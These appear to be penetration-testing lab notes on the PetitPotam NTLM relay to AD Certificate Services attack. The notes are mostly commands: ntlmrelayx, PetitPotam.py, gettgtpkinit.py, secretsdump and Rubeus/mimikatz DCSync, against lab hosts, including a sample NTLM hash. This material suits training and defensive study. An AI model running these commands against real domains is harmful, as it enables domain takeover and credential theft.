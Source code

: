 -- -
Explanation [here](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
Allows an unauthenticated attacker to coerce a DC to authenticate against another host using NTLM over part 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft's Encrypting File System Remote Protocol (MS-EFSRPC). Allows you to fully take over the domain. 
## From Linux
```bash
# start ntlm relay
sudo ntlmrelayx.py -debug -smb2support --target http://<dc ip/host>/certsrv/certfnsh.asp  --adcs --template DomainController

sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

# Run exploit
python3 PetitPotam.py <attack ip> <dc ip>

# In ntlm realy, you should see a base64 encoded certificate for the DDC
# Request TGT using base64 cert
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache

# set env variable to ccache file output by previous command, not explained why
export KRB5CCNAME=dc01.ccache

# DCSync attack using TGT for specific user
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

# Previous command should output that admin's hash, use it for full DCSync attack
# DCSync the whole enchilada
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```
## From Windows
```powershell
# You will still do the ntlm relay and PetitPotam steps from linux above, then from windows:
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

# Confirm tgt in memory
klist

# Then proceed w/ DCSync attack
# in mimikatz
lsadump::dcsync /user:inlanefreight\krbtgt
```